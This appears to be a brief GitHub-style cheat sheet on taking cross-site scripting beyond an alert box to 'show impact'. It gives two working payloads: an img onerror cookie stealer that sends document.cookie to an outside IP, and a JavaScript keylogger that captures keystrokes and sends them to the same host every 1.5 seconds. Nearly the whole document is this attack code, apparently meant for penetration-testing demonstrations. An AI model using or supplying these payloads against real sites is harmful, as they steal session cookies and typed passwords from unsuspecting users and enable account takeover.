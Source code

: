 # Beyond alert
Going beyond the alert('xss')

## Info

After getting your xss alert box, what's next? This is not usually enough to "show impact", so on the good stuff!

## Techniques (code)

- Cookie Stealer
```js
<img src=x onerror=this.src='http://5.5.5.5/?cookie='+document.cookie>
```



- Record key stokes
  Add this to a js file
  ```js
  var data = '';
  document.onkeypress = function(e) {
    var w = window.event ? event : e;
    var keystroke = w.keyCode ? w.keyCode : w.charCode;
    keystroke = String.fromCharCode(keystroke);
    data = data + keystroke;
  }
  window.setInterval(function(){
      new Image().src = 'http://5.5.5.5/?c=' + data;
      data = '';
  }, 1500);
  ```

